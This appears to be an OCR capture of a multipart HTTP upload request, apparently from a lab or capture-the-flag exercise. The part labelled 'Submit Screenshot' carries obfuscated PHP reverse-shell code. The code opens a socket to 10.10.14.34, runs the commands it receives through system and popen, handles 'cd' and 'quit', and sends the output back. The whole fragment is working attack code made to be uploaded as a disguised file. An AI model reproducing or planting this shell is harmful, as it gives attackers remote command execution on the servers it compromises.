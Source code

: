 ```
        }
        @pclose($fp);
      }else
      if($EPWc('system')and!$JZlmOv('system',$dis)){
        ob_start();
        system($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      {
        $o=0;
      }
    
        return $o;
      }
    }
    $nofuncs='no exec functions';
    if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){
      $s=@fsockopen("tcp://10.10.14.34",$port);
      while($c=fread($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=CkLhPZUPboOwI(substr($c,0,-1));
          if($out===false){
            fwrite($s,$nofuncs);
            break;
          }
        }
        fwrite($s,$out);
      }
      fclose($s);
    }else{
      $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
      @socket_connect($s,$ipaddr,$port);
      @socket_write($s,"socket_create");
      while($c=@socket_read($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=CkLhPZUPboOwI(substr($c,0,-1));
          if($out===false){
            @socket_write($s,$nofuncs);
            break;
          }
        }
        @socket_write($s,$out,strlen($out));
      }
      @socket_close($s);
    }

-----------------------------6880877471789511041406832871
Content-Disposition: form-data; name="submit"

Submit Screenshot
-----------------------------6880877471789511041406832871--

```